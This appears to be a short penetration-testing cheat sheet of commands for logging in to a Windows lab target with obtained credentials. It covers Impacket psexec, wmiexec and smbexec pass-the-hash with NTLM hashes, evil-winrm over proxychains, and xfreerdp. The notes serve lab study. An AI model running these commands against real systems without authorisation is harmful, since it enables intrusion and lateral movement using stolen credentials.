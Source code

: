## Remote Login Methods

Often, we'll obtain credentials and have to use them to login to a remote Windows target. There are multiple ways to perform this, but the following are the ones I've used primarily in labs. 

### Impacket

```bash
# Login with an NTLM hash
impacket-psexec 'matrix/neo@10.10.10.10' -hashes aad3b435b51404eeaad3b435b51404ee:669b12a3bac275251170afbe2c5de8c2

# Use WMI to login with credentials
impacket-wmiexec 'matrix/neo:Passwr0rd1@10.10.10.10' 

# Use smb to login as a local user with a hash
impacket-smbexec 'matrix/neo@10.10.10.10' -hashes aad3b435b51404eeaad3b435b51404ee:669b12a3bac275251170afbe2c5de8c2
```

### Evil Winrm

```bash
proxychains evil-winrm -i 10.10.10.10 -u Administrator -p "Passw0rd"
```

### xfreerdp 

```bash
xfreerdp /u:Neo /p:Passowrd! /v:10.10.10.10 /cert-ignore
```